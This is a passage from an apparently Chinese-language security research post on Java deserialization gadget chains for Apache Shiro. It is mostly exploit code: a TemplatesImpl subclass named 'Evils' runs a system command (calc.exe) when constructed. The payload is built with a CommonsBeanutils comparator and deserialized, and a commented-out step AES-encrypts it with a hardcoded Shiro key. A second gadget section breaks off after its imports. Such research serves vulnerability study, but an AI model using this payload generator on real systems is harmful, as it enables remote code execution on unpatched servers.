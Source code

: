 ```
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

        public Evils() throws Exception {
            System.out.println("Hello TemplatesImpl");
            Runtime.getRuntime().exec("calc.exe");
        }
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evils.class.getName());
        byte[] payloads = new CommonsBeanutilsPropertySource().getPayload(clazz.toBytecode());
        ByteArrayInputStream bais = new ByteArrayInputStream(payloads);
//        System.out.println(bais.read());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();


//        AesCipherService aes = new AesCipherService();
//        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
//
//        ByteSource ciphertext = aes.encrypt(payloads, key);
//        System.out.printf(ciphertext.toString());
    }

}
```



----

### ObjectToStringComparator

`ObjectToStringComparator`是apache属于下的`Commons-lang`组件，也是一个比较典型的组件。

![image-20210614155257724](https://gitee.com/samny/images/raw/master/summersec//57u52er57ec/57u52er57ec.png)



该类的Compare方法参数是Object类型，比较简单。

直接贴出代码：

```
package summersec.shirodemo.Payload;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.lang3.compare.ObjectToStringComparator;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

```